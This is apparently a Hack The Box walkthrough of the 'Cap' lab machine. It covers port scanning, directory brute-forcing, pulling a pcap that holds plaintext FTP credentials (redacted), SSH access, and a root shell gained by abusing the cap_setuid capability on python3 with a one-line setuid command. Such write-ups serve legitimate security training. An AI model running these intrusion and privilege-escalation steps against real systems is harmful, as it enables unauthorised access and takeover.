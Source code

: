 # cap ,HTB 28 JUL 2021 
#ip:10.10.10.245

![70ea3357a2d090af11a0953ec8717e90](https://user-images.githubusercontent.com/67979878/127354448-dbdd2b99-0c74-4082-bcbf-39dd70fff100.png)

SCANNING
========
intial
------
$nmap -sV -v  -oN nmap/intial 10.10.10.245         

```
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    gunicorn

```                          
### the full scan return same results .

searching for exploits for services running :

[*] non found to get rce .

searching for exploits for technologies used on the web page "bootstrap 4.0.0 , jquery 2.2.4 and others"

[*]non found to get rce .                          

-you can know technologies used via wappalayzer .


ENUMRATION
===========

$ftp 10.10.10.245 

[*]failed to log in as anonymous :(

$ gobuster dir -u "http://10.10.10.245/" -w=/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt | tee gobuster.txt

```
/data                 (Status: 302) [Size: 208] [--> http://10.10.10.245/]
/ip                   (Status: 200) [Size: 17465]                         
/netstat              (Status: 200) [Size: 32611]                         
/capture              (Status: 302) [Size: 220] [--> http://10.10.10.245/data/9]

```
### not much as these files is the tabs on the page :) .
How ever , 

/data is interesting . when i hit it by go-buster it has /9 , when i visit it i got /11

it seems there are a lot of pcap files in this /data , So starting from zero :) , download this file 


## WIRESHARK 

open this file with wireshark 

follow tcp stream on any packet 

```
220 (vsFTPd 3.0.3)
USER XXXX
331 Please specify the password.
PASS XXXXXXXXX
230 Login successful.
SYST
215 UNIX Type: L8
PORT 192,168,196,1,212,140
200 PORT command successful. Consider using PASV.
LIST
150 Here comes the directory listing.
226 Directory send OK.
PORT 192,168,196,1,212,141
200 PORT command successful. Consider using PASV.
LIST -al
150 Here comes the directory listing.
226 Directory send OK.
TYPE I
200 Switching to Binary mode.
PORT 192,168,196,1,212,143
200 PORT command successful. Consider using PASV.
RETR notes.txt
550 Failed to open file.
QUIT
221 Goodbye.

````

as we see it seems a user from the machine ip sent his credits unencrypted .

now we have credits !
=========================
do it your self :)

USER XXXXXX

PASS XXXXXXXXXXXXXX

[*]port 22 is open as we get from the nmap :) 

$ssh XXXX@10.10.10.245 


==================WE ARE IN=====================


### now we can go ahead and read /home/XXXX/user.txt 

PRIVILEGE ESCALATION
====================

$sudo -l 

X no sudo for XXXX :( 

some checks :
-----------

#we can't write to /etc/passwd

#we can't read /etc/shadow 



searching for suid  :)
----------------------
$find / -type f -user root -perm -4000 -exec ls -l {} + 2>/dev/null


got alots of binaries but they are default or not interesting for https://gtfobins.github.io/


searching for kernel exploits 
------------------------------
$uname -ao

Linux cap 5.4.0-80-generic #90-Ubuntu SMP Fri Jul 9 22:49:44 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux                

[*] no privilege escalation via kernel exploit  :( .


searching for capabilites 
------------------------
$ getcap -r / 2>/dev/null
```
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```


python ?


from : https://gtfobins.github.io/gtfobins/python/#capabilities


$python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'


#pwned .
